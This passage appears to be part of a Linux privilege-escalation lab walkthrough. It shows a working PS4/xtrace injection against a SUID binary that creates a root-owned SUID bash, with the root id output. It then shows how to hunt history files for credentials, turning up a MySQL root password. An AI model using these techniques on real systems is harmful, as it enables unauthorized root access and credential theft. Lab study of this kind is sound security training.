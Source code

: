 [+] Steps<br>
- set `PS4` to bash command.

```bash

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/bash;chmod u+s /tmp/bash)' /usr/local/bin/suid-env2


user@debian:~$ /tmp/bash -p
bash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)


```




**`Passwords & Keys - History Files`**

looking for sensitive data in `.*history`   

```bash
total 56
drwxr-xr-x 5 user user 4096 May 15  2020 .
drwxr-xr-x 3 root root 4096 May 15  2017 ..
-rw------- 1 user user  410 Feb 22 13:40 .bash_history
-rw-r--r-- 1 user user  220 May 12  2017 .bash_logout
-rw-r--r-- 1 user user 3235 May 14  2017 .bashrc
drwxr-xr-x 2 user user 4096 May 13  2017 .irssi
drwx------ 2 user user 4096 May 15  2020 .john
-rw------- 1 user user  137 May 15  2017 .lesshst
-rw-r--r-- 1 user user  212 May 15  2017 myvpn.ovpn
-rw------- 1 user user   11 May 15  2020 .nano_history
-rw-r--r-- 1 user user  725 May 13  2017 .profile
drwxr-xr-x 8 user user 4096 May 15  2020 tools
-rw------- 1 user user 6334 May 15  2020 .viminfo
user@debian:~$ cat .*history

ls -al
cat .bash_history
ls -al
mysql -h somehost.local -uroot -ppassword123
exit
cd /tmp



```


**`Passwords & Keys - Config Files`**


search for keys in config files which would be config for cms  or server config 
